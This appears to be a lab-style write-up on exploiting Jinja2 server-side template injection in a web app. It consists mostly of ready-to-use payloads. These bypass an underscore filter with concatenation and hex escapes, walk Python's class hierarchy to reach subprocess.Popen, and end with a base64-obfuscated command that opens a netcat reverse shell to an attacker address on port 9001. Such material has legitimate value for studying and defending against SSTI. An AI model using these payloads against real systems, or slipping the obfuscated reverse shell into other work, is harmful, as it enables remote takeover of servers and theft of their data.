 Here are some working payloads:

Additional reference: [Jinja2 SSTI | HackTricks | HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti)

Ascii encoding: [https://en.wikipedia.org/wiki/ASCII#ASCII_printable_code_chart](https://en.wikipedia.org/wiki/ASCII#ASCII_printable_code_chart)

```python
Breaking up __ into single _
{% set class = "_" + "_" + "class" + "_" + "_" %}
Ascii encoding:
{% set class = "\x5f\x5fclass\x5f\x5f" %}
```

## RCE

When we display the MRO, we get the following result. As such, we’ll want to access the index 1. 

```json
{"message":
	{"message":"<div></div><div></div><div></div><div></div><div>(<class 'str'>, <class 'object'>)</div>",
	"subject":"testing"
	}
}
```

Since Jinja syntax does not work with `[` characters after a filter, we’ll save the response to the MRO attribute as a variable and then access the first index.

```python
{% set mro = string|attr(class)|attr(mro) %}
{{mro[1]}}
```

We can then output all the subclasses with the subclasses() attribute, and then look through the classes for potential attack vectors. We’ll take this and paste it onto a text file and replace the `,` with newlines, allowing us to easily index our wanted class. 

In one of them, we find the `subprocess.Popen` class on index 391 (line 392), which we can use to execute code remotely.  

```python
{{mro[1]|attr(subclasses)()}}
```

We can now use this to gain a reverse shell. Here are some sample payloads.

Base64-encoded netcat reverse shell: 

```python
{% set string = "test" %}
{% set class = "\x5f\x5fclass\x5f\x5f" %}
{% set mro = "\x5f\x5fmro\x5f\x5f" %}
{% set subclasses = "\x5f\x5fsubclasses\x5f\x5f" %}
{% set mro = string|attr(class)|attr(mro) %}
{% set subclasses = mro[1]|attr(subclasses)() %}
{% set subprocess = subclasses[391] %}
{% set shellcode = "echo cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL2Jhc2ggLWkgMj4mMXxuYyAxOTIuMTY4LjQ1LjIwMCA5MDAxID4vdG1wL2Y= | base64 -d  | sh" %}
{{subprocess(shellcode, shell=True)}}
```

